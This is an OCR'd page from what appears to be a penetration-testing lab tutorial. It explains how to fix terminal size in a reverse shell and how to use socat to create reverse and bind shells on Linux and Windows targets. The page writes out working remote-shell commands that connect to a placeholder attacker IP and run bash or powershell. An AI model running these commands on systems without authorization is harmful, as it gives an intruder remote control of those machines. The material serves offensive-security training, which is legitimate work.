 With any of the above techniques, it's useful to be able to change your terminal tty size. 
This is something that your terminal will do automatically when using a regular shell; 
however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

Next, in your reverse/bind shell, type in:

stty rows <number>
and

stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

## Socat
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

socat TCP-L:<port> -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.

On Windows we would use this command to connect back:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

Bind Shells

On a Linux target we would use the following command:

socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes
